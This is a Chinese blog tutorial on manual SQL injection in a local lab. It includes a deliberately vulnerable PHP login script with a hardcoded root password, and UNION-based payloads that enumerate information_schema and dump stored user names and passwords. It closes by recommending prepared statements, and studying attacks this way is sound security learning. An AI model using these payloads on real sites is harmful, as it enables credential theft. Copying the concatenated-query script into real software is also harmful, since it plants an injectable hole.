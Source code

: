 ```yaml
---
layout: article
title: SQL injection 学习
date: 2017-05-22 02:37:43
categories: 安全
tags:
- 网络安全
- sql injection
---
```


# SQL injection

在国哥的安排下，对着 kali渗透测试之 SQL injeciton 视频教程一顿撸（虽然没什么卵用），记录下来自己的一些实验过程和经历。

## 提前准备

- 本地的 lemp 环境，搭建可参考：[Centos 7 Nginx + php + mysql Web服务器搭建](https://wanghaichi.github.io/2017/01/21/lempServer/) 和 [Unbuntu16.04 Nginx + php + mysql Web服务器搭建](https://wanghaichi.github.io/2017/03/10/lemp-Ubantu/) 当然 xampp 也是极好的。
- 用于攻击的 php 脚本和数据库，下面会给出

## 编写脚本

找个能够访问的地方，编写如下 php 脚本
```php
<html>
	<head></head>
	<body>
		<form action="./login.php" method="post">
			ID<input name="id" type="text"><br/>
			<input type="submit" value="提交">
		</form>
		<div>
		<p>
			<?php
				if($_POST['id']){
					$connection = new mysqli("localhost", "root", "hhxxttxs", "test");
					if($connection->connect_errno){
						 echo "Failed to connect to MySQL: (" . $connection->connect_errno . ") " . $connection->connect_error;
					}
					$id = $_POST['id'];
					// echo $name."<br/>".$password."<br/>";
					$sql = "SELECT name, password FROM `user` WHERE `id` = '". $id . "'";
					echo $sql."<br/>";
					$res = $connection->query($sql);
					// var_dump($res);
					while($row = $res->fetch_assoc() ){
						echo "姓名: ". $row['name'] . "<br/>";
						echo "密码: ". $row['password'] . "<br/>";
					}
				}
			?>
		</p>
		</div>
	</body>
</html>
```
在本地新建数据库 `test`，新建 user 表

![Picture](/images/2017-5-22-10-45.png)

## SQL injection 简介

### 原理

> 服务器端程序将用户输入参数作为参数作为查询条件，直接拼接SQL语句，并将查询结果返回给客户端浏览器

对于一般处理数据库查询的语句，客户端会将用户输入的参数使用`''`包裹之后，形成 SQL 查询字符串，交给 SQL 服务去处理。对于没有进过数据处理的脚本，很容易产生 SQL 注入。

我们可以手动输入 ` ' " % ( ) `这些在 SQL 语法中有特殊含义的字符，进行 SQL 注入攻击。

### 用户登录判断
  - `SELECT * FROM users WHERE user='uname' AND password='pass'`
  - `SELECT * FROM users WHERE user='name' AND password='' OR ''=''`

通过以上语句可以跳过用户验证，因为第二个 SQL 语句恒为真。

### 手动漏洞挖掘--SQL注入

注意下面的所有事例中 + 表示空格，不加空格 `--` 起不了注释的作用。

#### 基于报错的检测方法

- `' " % ( )`

#### 基于布尔的检测

- `1' and '1'='1`   /   `1' and '1`
- `1' and '1'='1`   /   `1' and '0`

#### 表列数 / 显示信息位于哪一列

- `' order by 9--+`
- select * 时表字段数=查询字段数

可以通过这个方法判断当前表中有多少列，但需要脚本中的 SQL 语句使用 `*` 作为查询域

#### 联合查询

- `' union select 1,2--+`

![Picture](/images/2017-5-22-10-35.png)

- `' union all select database(),2--+` // 显示数据库名

![Picture](/images/2017-5-22-10-36.png)

- `' union all select user(), version()--+` // 显示用户，数据库版本

![Picture](/images/2017-5-22-11-02.png)

- `' union select database(), substring_index(USER(),"@",1)--`

![Picture](/images/2017-5-22-11-04.png);

#### 全局函数

- `@@datadir @@hostname @@VERSION @@version_compile_os--+`

![Picture](/images/2017-5-22-11-09.png)

![Picture](/images/2017-5-22-11-10.png)

![Picture](/images/2017-5-22-11-11.png)

#### 当前库

- `database()`

#### ASCII转字符

- `char()`

char 函数可以将 ascii 码转换成对应的字符。

#### 连接字符串

- `CONCAT_WS(CHAR(32,58,32),user(),database(),version())`

![Picture](/images/2017-5-22-11-14.png)

这里使用 CONCAT_WS 函数，将三个数据库信息拼接在一起，同时使用 ` : ` 进行分割。

#### 计算哈希

- `md5()`

可以使用目标服务器进行大规模的数据计算

#### Mysql 数据结构

- information_schema

#### 所有库所有表 / 统计库中表的数量

- `' union select table_name, table_schema from information_schema.tables--+`

![Picture](/images/2017-5-22-11-17.png)

- `' union select table_schema,count(*) FROM information_schema.tables group by table_schema --`

![Picture](/images/2017-5-22-11-23.png)

#### test库中的表名

- `' union select table_name, table_schema from information_schema.tables where table_schema='test'--+`

![Picture](/images/2017-5-22-11-26.png)

#### Users表中的所有列（user_id first_name last_name user password avatar）

- `' union select table_name, column_name from information_schema.columns where table_schema='test' and table_name='user'--+`

![Picture](/images/2017-5-22-11-27.png)

可以看到 user 表中的所有列名都被列出来了！

#### 查询 user password 列的内容

- `' union select name, password from test.user--+`

![Picture](/images/2017-5-22-11-29.png)

- `' union select null, concat(name, 0x3a, password) from user--+`

![Picture](/images/2017-5-22-11-30.png)

## 小结

可以看到一个简单的 SQL injection 漏洞，几乎可以攻击所有的数据库。更有甚者还可以直接攻击服务器（下回说）。因此在编写代码时一定要注意 SQL 语句的过滤。

目前看来，所有的过滤手段都是不可靠的，都有方法可以通过截断、欺骗等进行攻击。因此正确的操作应该是用 SQL 预编译，进行参数绑定，这样可以保证 SQL 的查询语句不被篡改。具体方法可以参见 [mysqli Prepared Statements](http://php.net/manual/zh/mysqli.quickstart.prepared-statements.php)
